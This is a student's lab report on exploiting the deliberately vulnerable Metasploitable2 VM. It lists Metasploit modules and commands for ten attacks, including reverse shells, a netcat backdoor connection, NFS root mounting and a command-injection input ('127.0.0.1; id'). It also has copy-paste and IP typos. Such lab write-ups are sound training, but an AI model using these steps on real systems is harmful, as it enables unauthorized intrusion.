# Metasploitable2 Exploitation Report

**Name:** Abena Bamfowaah Adusei  
**Index Number:** 4181824  
**Date:** 28th Semptember, 2026  
**Target IP:** 192.168.1.3  
**Attacker OS / Tools:** Kali Linux 2026.3, Metasploit Framework 6.5.3-dev, nmap version 7.99

---

## Reconnaissance Summary

The nmap scan was used to perform reconnaissance against the metasploitable 2 targt. The scan was used to identify open ports, running services, and service versions that could be investigated for potential vulnerabilities. 

---

## Exploit 1: <"vsftpd 2.3.4 Backdoor">

- **Service / Port:** FTP / 21
- **Vulnerability:** VSFTPD 2.3.4 Backdoor
- **Tool Used:** Metasploit — exploit/unix/ftp/vsftpd_234_backdoor
- **Why This Tool:** The Nmap reconnaissance scan identified VSFTPD 2.3.4 running on port 21. This specific version contains a known backdoor, so the Metasploit `vsftpd_234_backdoor` module was appropriate for testing and exploiting the identified vulnerability.
- **Steps:**
  1. `msfconsole`
  2. `use exploit/unix/ftp/vsftpd_234_backdoor`
  3. `set RHOSTS 192.1168.1.3`
  4. run
- **Evidence:** 
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** ftp service and vsftpd 2.3.4 version were identified during the Nmap scan.

  - **Exploitation:** The metasploit module was used to trigger a backdoor in vsftpd 2.3.4 and obtain access to the target.

  - **Command and Control:** An interactive session was established between kali linuxx and metasploit.

- **Outcome / Impact:** A Meterpreter session was obtained on the target, allowing system information to be retrieved using `sysinfo`, the compromised user to be identified using `getuid`, and files and directories on the target to be listed using `ls`.

---

## Exploit 2: Samba Username Map Script Command Execution

- **Service / Port:** Samba/ 139 and 445
- **Vulnerability:** Samba "username map script" Command Execution
- **Tool Used:** Search and Metasploit — `exploit/multi/samba/usermap_script` with the default payload `cmd/unix/reverse_netcat`
- **Why This Tool:** The reconnaissance scan identified Samba on ports 139 and 445. SearchSploit was used to search for known Samba vulnerabilities, and the Metasploit usermap/script module was selected because it specifically targets the Samba username map script command-execution vulnerability
- **Steps:**
  1. `search samba 3`
  2. `exploit/multi/samba/usermap_script`
  3. `set RHOSTS 192.1168.1.3`
  4. `run`
  5. A remote command shell session was opened.
- **Evidence:** 
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** The Nmap scan identified Samba on ports 139 and 445, which led to investigation of the service for known vulnerabilities.

  - **Exploitation:** The Samba username map script vulnerability was exploited using the corresponding Metasploit module.

  - **Command and Control:** The default `cmd/unix/reverse_netcat` payload established a reverse command shell session with the attacker machine

- **Outcome / Impact:** A remote command shell session was obtained on the Metasploitable2 target. Commands such as `pwd`, `id`, `uname -a`, and `ls` were used to identify the current working directory, user and group information, system/kernel information, and the contents of the current directory.

---

## Exploit 3: Apache Tomcat AJP File Read

- **Service / Port:** AJP13/ 8009
- **Vulnerability:** Apache Tomcat AJP Ghostcat File Read/Inclusion (CVE-2020-1938)
- **Tool Used:** Metasploit — `auxiliary/admin/http/tomcat_ghostcat`
- **Why This Tool:** The Nmap scan identified an AJP13 service running on port 8009. The tomcat_ghostcat Metasploit module was selected because it specifically exploits the Apache Tomcat AJP vulnerability identified as CVE-2020-1938. The vulnerability can allow an attacker to read files from a vulnerable Tomcat web application through the AJP connector
- **Steps:**
  1. `search ajp`
  2. `use auxiliary/admin/http/tomcat_ghostcat`
  3. `set RHOSTS 192.1168.1.3`
  4. run
- **Evidence:**  
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** The Nmap scan identified the AJP13 service on port 8009.

  - **Exploitation:** The Ghostcat vulnerability was exploited through the Tomcat AJP connector using the corresponding Metasploit module.

  - **Actions on Objectives:** The exploitation allowed information from the target's web application to be accessed.

- **Outcome / Impact:** The Ghostcat vulnerability allowed unauthorized reading of the Tomcat application's `WEB-INF/web.xml` file. The file contents were successfully retrieved and saved to `/home/kali/.msf4/loot/20260928211138_default_192.168.2.3_WEBINFweb.xml_690932.txt` on the attacker machine. The retrieved file exposed information about the Tomcat web application's configuration, including its servlet and URL mappings.

---

## Exploit 4: PostgreSQL Payload Execution

- **Service / Port:** PostgreSQL/ 5432
- **Vulnerability:** PostgreSQL for Linux Payload Execution
- **Tool Used:** Search and Metasploit Framework — `exploit/linux/postgres/postgres_payload`
- **Why This Tool:** The reconnaissance scan identified PostgreSQL running on port 5432. The postgres_payload Metasploit module was selected because it is specifically designed to execute a Linux payload through PostgreSQL by using PostgreSQL's ability to create and execute a user-defined function from a shared library.
- **Steps:**
  1. `search postgres`
  2. `use exploit/linux/postgres/postgres_payload`
  3. `set RHOSTS 192.1168.1.3`
  4. `set LHOST 192.168.1.4`
  5. `run`
  6. A meterpreter session was opened.
- **Evidence:**  
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** The Nmap scan identified PostgreSQL as an exposed service on port 5432.

  - **Exploitation:** The `postgres_payload` module was used to execute a payload through the vulnerable PostgreSQL configuration.

  - **Command and Control:** A Meterpreter session was successfully established between Kali Linux and the target.

  -**Actions and Objectives:** After obtaining the Meterpreter session, `sysinfo`, `getuid`, and `ls` were used to gather system information, identify the compromised account, and inspect files and directories on the target.

- **Outcome / Impact:** A remote command shell session was obtained on the Metasploitable2 target. Commands such as `pwd`, `id`, `uname -a`, and `ls` were used to identify the current working directory, user and group information, system/kernel information, and the contents of the current directory.

---

## Exploit 5: rlogin Remote Root Access

- **Service / Port:** rlogin / 513
- **Vulnerability:** Insecure rlogin configuration `(.rhosts + +)` allowing remote login without normal authentication
- **Tool Used:** Metasploit — `rlogin -l root`
- **Why This Tool:** The Nmap reconnaissance scan identified the rlogin service on TCP port 513. The Metasploitable2 system is intentionally configured with insecure r-services that permit remote access from hosts that would normally need to be trusted. The `rlogin` client was therefore the appropriate tool for testing and obtaining access through the exposed rlogin service.
- **Steps:**
  1. `rlogin -l root 192.168.2.3`
  2. A remote shell was opened
- **Evidence:** 
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** Nmap identified the rlogin service on TCP port 513.

  - **Exploitation:** The insecure rlogin trust configuration was used to obtain unauthorized remote access as the root user.

  - **Command and Control:** The successful rlogin connection provided an interactive remote shell through which commands could be executed on the target.

  - **Actions on Objectives:** `whoami` and `id` were used to verify the identity and privileges of the compromised account, confirming root-level access.

- **Outcome / Impact:** A remote root shell was obtained on the Metasploitable2 target. The whoami and id commands were used to verify that the session had root-level privileges, providing full command-line access to the system.

---

## Exploit 6: NFS Root Filesystem Export

- **Service / Port:** NFS / 2049
- **Vulnerability:** Insecure NFS export of the root filesystem.
- **Tool Used:** NFS client utilities — `showmount` and `mount`
- **Why This Tool:** The Nmap scan identified NFS running on port 2049. The NFS export configuration was then examined, and the target was found to be exporting its root filesystem. The NFS client utilities were appropriate because they allow an exported filesystem to be enumerated and mounted when the target permits remote access.
- **Steps:**
  1. `showmount -e 192.168.1.3`
  2. `sudo mkdir -p /mnt/metasploitable_nfs`
  3. `sudo mount -t nfs 192.168.1.3://mnt/metasploitable_nfs`
  4. `ls /mnt/metasploitable_nfs`
- **Evidence:** 
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** The Nmap scan identified NFS on port 2049, and showmount revealed that the root filesystem was being exported.

  - **Exploitation:** The exposed NFS root filesystem was mounted from Kali without normal local access to the target filesystem.

  - **Actions on Objectives:** The contents of the target's root filesystem were accessed, including directories such as `/etc`, `/home`, `/root`, `/usr`, and `/var`.

- **Outcome / Impact:** The target's root filesystem was successfully mounted on Kali at `/mnt/metasploitable_nfs`. This provided direct access to the files and directories contained in the exported filesystem.

---

## Exploit 7: Ingreslock Backdoor

- **Service / Port:** Ingreslock / 1524
- **Vulnerability:** Ingreslock backdoor providing an unauthenticated root shell
- **Tool Used:** Netcat (`nc`)
- **Why This Tool:** The reconnaissance scan identified port 1524 as an open ingreslock service. Metasploitable2 contains an intentionally exposed backdoor on this port that provides direct shell access. Netcat was appropriate because it can establish a direct TCP connection to the open port and interact with the backdoor.
- **Steps:**
  1. `nc -nv 192.168.1.3 1524`
  2. `id`
- **Evidence:** 
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** Nmap identified port 1524 as an open ingreslock service.

  - **Exploitation:** A direct TCP connection was made to the backdoor on port 1524 using Netcat, providing access to the target shell.

  - **Command and Control:** The resulting shell provided an interactive channel for issuing commands on the compromised target.

  - **Actions on Objectives:** The `id` command was executed to verify the privileges of the obtained shell.

- **Outcome / Impact:** A root shell was obtained on the Metasploitable2 target, providing privileged command-line access. The `id` command was used to verify the root-level privileges of the shell.

---

## Exploit 8: DistCC Command Execution

- **Service / Port:** DistCC / 3632
- **Vulnerability:** DistCC Daemon Command Execution
- **Tool Used:** Metasploit Framework - `exploit/unix/misc/distcc_exec` with the `cmd/unix/generic` payload.
- **Why This Tool:** The reconnaissance scan identified port 1524 as an open ingreslock service. Metasploitable2 contains an intentionally exposed backdoor on this port that provides direct shell access. Netcat was appropriate because it can establish a direct TCP connection to the open port and interact with the backdoor.
- **Steps:**
  1. `search distcc`
  2. `use exploit/unix/misc/distcc_exec`
  3. `set PAYLOAD cmd/unix/generic`
  4. `set CMD id`
  5. `run`
- **Evidence:** 
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** The Nmap scan identified the DistCC daemon on TCP port 3632, providing the information needed to investigate the service.

  - **Exploitation:** The `distcc_exec` module exploited the DistCC command-execution weakness and caused the target to execute the id command.

  - **Actions on Objectives:** The output of the `id` command was obtained, revealing the account under which the command was executed.

- **Outcome / Impact:** The id command was successfully executed on the Metasploitable2 target and returned `uid=1(daemon) gid=1(daemon) groups=1(daemon)`. This demonstrated remote command execution on the target as the daemon user. No interactive session was created because the selected `cmd/unix/generic` payload executes a command and returns its output rather than creating a persistent shell.

---

## Exploit 9: UnrealIRCd 3.2.8.1 Backdoor Command Execution

- **Service / Port:** IRC / 6667
- **Vulnerability:** UnrealIRCd 3.2.8.1 Backdoor Command Execution
- **Tool Used:** Metasploit Framework - `exploit/unix/irc/unreal_ircd_3281_backdoor` with the default payload `cmd/linux/http/x86/meterpreter/reverse_tcp`
- **Why This Tool:** The reconnaissance scan identified an IRC service running on port 6667. The service was identified as UnrealIRCd 3.2.8.1, a version affected by a malicious backdoor that allows remote command execution. The Metasploit `unreal_ircd_3281_backdoor` module was therefore selected because it specifically targets this vulnerability.
- **Steps:**
  1. `search irc`
  2. `use exploit/unix/irc/unreal_ircd_3281_backdoor`
  3. `set RHOSTS 192.168.2.3`
  4. `set LHOST 192.168.2.4`
  5. `run`
  6. `A meterpreter session was successfully opened.`
- **Evidence:** 
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** The IRC service was identified on TCP port 6667 and the UnrealIRCd version was determined during service enumeration.

  - **Exploitation:** The UnrealIRCd 3.2.8.1 backdoor was triggered using the corresponding Metasploit exploit module, resulting in remote command execution.

  - **Commands and Control:** The successful reverse connection established an interactive session between Kali Linux and the target.

  - **Actions on Objectives:** The `ps` command was used through the obtained session to view processes running on the compromised system.

- **Outcome / Impact:** A remote interactive session was successfully obtained through the UnrealIRCd backdoor. The `ps` command was then used to enumerate running processes on the compromised Metasploitable2 system.

---

## Exploit 10: Multillidae OS Command Injection

- **Service / Port:** HTTP / 80
- **Vulnerability:** OS Command Injection.
- **Tool Used:** Web browser — Mutillidae DNS Lookup functionality.
- **Why This Tool:** The reconnaissance scan identified the Mutillidae web application on the HTTP service. The DNS Lookup functionality accepts user-supplied input and was used to test whether operating-system commands could be injected into the application's processing of the hostname/IP value.
- **Steps:**
  1. Opened `http://192.168.2.3/mutillidae/` in the browser.
  2. Opened the DNS Lookup page.
  3. Entered `127.0.0.1; id` in the Hostname/IP field.
  4. Submitted the DNS Lookup request.
  5. The output displayed `uid=33(www-data) gid=33(www-data) groups=33(www-data)`.
